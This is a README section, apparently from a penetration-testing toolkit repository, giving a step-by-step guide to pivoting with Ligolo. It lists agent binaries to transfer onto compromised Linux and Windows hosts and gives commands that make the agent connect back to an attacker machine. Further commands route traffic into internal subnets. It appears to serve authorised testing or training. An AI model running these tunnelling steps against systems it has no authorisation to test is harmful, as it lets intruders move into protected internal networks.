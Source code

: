 ## 04 - Pivot
Some internal networks have multiple subnets that may not be directly accessible via our attacker machine. Create listeners on target machines, set up port forwarding accordingly and tunnel through. Each new target will require another listener to be hosted, fyi.
<br>
### CONTENT
| Script Name | Description |
| --- | --- |
| `ligolo-agent-linux` | Ligolo - agent to be transferred unto LINUX target (default port: 11601) |
| `ligolo-agent-windows.exe` | Ligolo - agent to be transferred unto WINDOWS target (default port: 11601) |
---

## Instructions
The following guide assumes the following network subnet infrastructure:
![image](https://github.com/user-attachments/assets/ce399c79-2d1f-4855-bb42-0dd6269482b3)


**ATTACKER**: Set up the proxy by creating a separate network interface (customize user accordingly).
```
sudo ip tuntap add user scorpio mode tun ligolo; sudo ip link set ligolo up
```

**ATTACKER**: Start up the proxy with a default self-cert option (real production environments will use certs).
```
ligolo-proxy -selfcert
```
---
#### In case certificates are used...
**ATTACKER**: Add issued certificates as needed
```
ligolo-proxy -certfile <CERT.CRT> -keyfile <CERT.KEY>
```
**PIVOT**: Run the agent with the certificate
```
.\ligolo-agent-windows -connect <ATTACKER>:11601
```
---
**PIVOT**: Start the agent.
```
.\ligolo-agent-windows -connect <ATTACKER>:11601 -ignore-cert
```

![image](https://github.com/user-attachments/assets/ebe4958e-893e-49a4-b1a0-cb4fa6cbd88b)

**ATTACKER**: And set up the tunnel.
```
session
1
ifconfig           # Verify the network interfaces of the connected agent
```

**ATTACKER**: Add the tunnel entry to the routing table to access INTERNAL.
```
sudo ip route add <INTERNAL-NETWORK> dev ligolo
start
```
ATTACKER: OR create the local route to PIVOT machine (To access ports on PIVOT, use 240.0.0.1/32 instead)
```
# Check diagram at the tope for reference
sudo ip route add 240.0.0.1/32 dev ligolo
```
---
At this current stage, we've attached an **agent on the PIVOT machine** that sends web traffic to the **listener on ATTACKER machine**, which allows us access to the PIVOT network of 192.168.1.0/24.
We can easily transfer files back and forth between the public internet and DMZ environment. For reference to the previous commands:
- ATTACKER: 127.0.0.1
- PIVOT: 240.0.0.1

![image](https://github.com/user-attachments/assets/88e112b4-0cfe-4776-ae8f-bf2c356b79b0)

<br>
Assume, after further enumeration of the PIVOT server, we find another interface that hosts the INTERNAL network. In order to access
the ports on an INTERNAL machine, we need to set up a new listener tunnel. This time, we'll set up the listener on PIVOT!

